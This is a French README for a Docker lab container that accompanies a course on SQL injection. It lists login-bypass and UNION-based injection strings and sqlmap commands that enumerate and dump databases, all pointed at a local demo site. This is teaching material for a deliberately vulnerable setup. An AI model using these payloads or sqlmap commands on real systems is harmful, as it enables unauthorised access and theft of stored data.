   ____   ___  _       ___        _           _   _             
/ ___| / _ \| |     |_ _|_ __  (_) ___  ___| |_(_) ___  _ __  
\___ \| | | | |      | || '_ \ | |/ _ \/ __| __| |/ _ \| '_ \
___) | |_| | |___   | || | | || |  __/ (__| |_| | (_) | | | |
|____/ \__\_\_____| |___|_| |_|/ |\___|\___|\__|_|\___/|_| |_|
|__/

![](readme_docs/287167c6.png)

Container Docker pour suivre le cours sur les Injections SQL

# Prérequis

* Docker
* Docker-compose
* Ports 8000, 8032, 8081 disponibles

# Lancement

Cloner le dépôt sur votre WSL

```bash
git clone git@github.com:LiliwoL/B3-Docker-Injection-SQL-Demonstration.git
```

Lancer le container

```bash
cd B3-Docker-Injection-SQL-Demonstration
bin/start
```

Accéder à la page web à l'adresse suivante:

http://127.0.0.8:8000


---

# Injections SQL possibles

## Authentification sans mot de passe

`' or 1=1 -- `

> Ne pas oublier l'espace à la fin

## Enumération des utilisateurs

`' or 1=1 UNION SELECT * FROM users -- `

## Insertion d'un utilisateur dans la table users

`' or 1=1 UNION SELECT 'admin', 'admin', 'admin', 'admin' -- `

# SQLMap

sqlmap -u http://127.0.0.1:8000 --forms --dbs

![](readme_docs/86043759.png)

sqlmap -u http://127.0.0.1:8000 --forms --tables -D db_name

![](readme_docs/8f6b0a65.png)

sqlmap -u http://127.0.0.1:8000 --forms --dump -D db_name -T table_name

![](readme_docs/3137fd85.png)

# Lancement

Clonez le dépôt

```bash
git clone 
```

Lancez le container

```bash
bin/start
```

Accédez au shell du container MySQL

```bash
bin/shell
```

![](readme_docs/d0107619.png)

Lancement du client mysql (saisissez le mot de passe **root**)

```bash
root@94416fbdf8e8:/# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

